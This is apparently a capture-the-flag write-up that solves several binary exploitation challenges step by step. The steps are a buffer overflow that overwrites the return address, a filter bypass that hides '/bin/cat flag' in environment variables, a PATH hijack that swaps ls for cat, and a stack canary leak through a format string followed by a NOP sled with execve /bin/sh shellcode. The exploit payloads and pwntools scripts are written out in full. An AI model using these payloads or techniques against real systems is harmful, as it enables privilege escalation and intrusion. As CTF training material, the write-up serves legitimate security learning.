

This is very simple problem if you know buffer overflow.To do this I gave inpute initially 128 byte and I opened it in gdb ,put a break point at return address of main .By observing stack I saw that my overloaded return address was upper then I wanted to it (top of stack) .from this I understood that how much byte should I decrease .and finally I gave 80 byte input (a*72+8 byte return address).To give input I stored it first in /tmp/file6 and pass it run time
usefull command:python -c "print 'a'*72 +'\x5d\x60\x04\x00\x00\x00\x00\x00'"
Second method::Using pwn tools
>>>from pwn import *
>>>p=process('/bin/sh')
>>>p.sendline('./covfefe "/tmp/file6"')
>>>p.recvline()
# I got flag
>>>p.close()
flag:1$_th12_7h3_l4$7_fl49
In this problem we know what should be argument but actul problem is that how to pass it because is filter function that can detect '/','flag','sh'...etc.that's why we can't send our argument(/bin/cat flag) directly.solution of this problem is difine anvironment variable .that's it.problem solved.
command used:$export b=/bin/cat
$ export f=flag
$./you \ think\you\know\bash\?\?\? '\$b\$f'
# I got flag
Second method:Using pwn tools
>>>from pwn import *
>>>p=process('/bin/sh')
>>>p.sendline('./you\ think\ you\ know\ bash\?\?\? "/bin/cat flag"')
>>>p.recvline()
#I got flag again
>>>p.close()
flag:d1d_y0U_$0Lv3_Pw/\/4bl3
Again a easy problem.As we run this binary it ask for path as input.above that we can see line "EL-ESS -- a drop-in replacement for ls". it's hint.now disassemble it and put a break point at system function call.With the help of peda you can see argument that is going to pass.it is "/bin/ls path".where path is varible given by us. now for this problem make directory named as kamlesh in /tmp dirctory .copy cat file from /bin to /tmp/kamlesh and change name by ls.now define path of this directory as "PATH=/tmp/kamlesh" .and Run the binary ,give flag as input whenask for path.you will grt flag.
flag:2t1ll_34$Y_fl49_1$/\/7_17_?
first open the binary in gdb and disassemle main,getName & submitfeedback.see the buffer in getName function ,it is 0x88 bytes large.our canary value is present at ebp-0xc(12 bytes below the ebp).to see canary value put breakpoint at 0x080485bf and run it and use x/wx $ebp-0xc. now disas submitfeedback function .here buffer is of 0x238 bytes but you can see before read@plt function call there is instruction "lea eax,[ebp-0x21c] ".that mean buffer starts filling from ebp-0x21c(540 bytes).here also canary values are present at ebp-0xc(12 bytes below from ebp).
Write c code for system call then using object dump convert it into shellcode.In shellcode there should not be any null byte.Before shellcode use some NOP (No Operation).The NOP instruction does nothing. Execution continues with the next instruction. No registers or flags are affected by this instruction.After using NOP we can point return address anywhere in b/w NOP .In this problem I'm pointing return address at ebp-440.after NOP there is my shellcode and then remaining bytes of buffer before canary value then overwrite canary value By itself (this canary value we can see from first input in getNAme function using formate string).After canary put any random 12 byte( 8 bytes remaining buffer + 4 bytes saved ebp).then overwire return add to add of ebp-440(that we can get useing gdb by putting break point at suitable place).
Canaries remains same for single process
$cd feedback //go in directory containing binary $python //open python >>>p=process('/bin/sh') //start process >>>p.senline("./feedback") //start execution of binary >>p.sendline("%llx,"*16) //give first input as a name it will leakout the buffer from stack .last four bytes will be our caanry.use it in input >>>p.sendline("\x90"*200+ "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\xff\xc0\xcd\x80" +"A"*299 +"\x00\xf3\x76\x4c"+"A"*12 +"\x10\xd5\xff\xff") //second input as explained above in pic.Now you become root user now can cat flag file >>>p.sendline('cat flag') //you get flag.Now give a treat to your friends.
flag:C4/\/aR1$_4r3_$h1t
As suggested by problem name It's very easy problem .There is one thing that you will learn from this problem.That is "How to use gdb with pwntools".Open binary in gdb. there is a strcampare function that is comparing the value present at ebp-0x70 and input given by us.there both are not same it prints wrong password.value at ebp-0x70 is not same for every process so we have to see it during the process to give it as input.To see that value put the break point at 0x0804862d.
>>> p=process('/bin/sh') >>>p.sendline('gdb ./baby_steps') //open in gdb >>>p.sendline('disas main') // disassemble main function >>>p.sendline('b *0x0804862d') // put break point at 0x0804862d >>>p.sendline('run') // run binary >>> p.recv() // get output of all steps done above >>>p.sendline('x/wx $ebp-0x70') >>>p.recv() // see the value stored at ebp-0x70 for this process give this as input >>>p.sendline('aboue value')>>>p.recv() // you will get "correct password and flag"